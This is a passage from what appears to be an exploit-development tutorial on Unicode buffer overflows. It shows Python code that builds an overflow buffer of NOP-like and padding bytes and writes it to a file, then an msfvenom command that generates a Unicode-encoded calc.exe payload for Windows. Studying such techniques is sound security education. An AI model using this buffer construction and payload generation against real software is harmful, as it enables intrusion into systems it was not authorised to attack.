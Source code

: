 ```
buf += b"\x75"                      # Unicode NOP  
  
buf += b"\x71" * 595  
	  
buf += b"\x44" * (5000 - len(buf))  
	  
f.write(buf)  
f.close()
```  

Finally all we have to do is create a payload and add it to our shell code and this should be completed.

## Finishing the Exploit

In order to create our payload we will be once again using MSFVenom. So boot up an instance of Kali or wherever you keep a copy of MSFVenom and run the following command to generate our payload.

**Command:**
```
msfvenom -p windows/exec CMD=calc.exe -e x86/unicode_upper BufferRegiseter=EAX -f python
```

<p align="center"><img src="/images/basics-of-exploit-development-4-unicode-overflows/payload-generation.PNG"/></p>    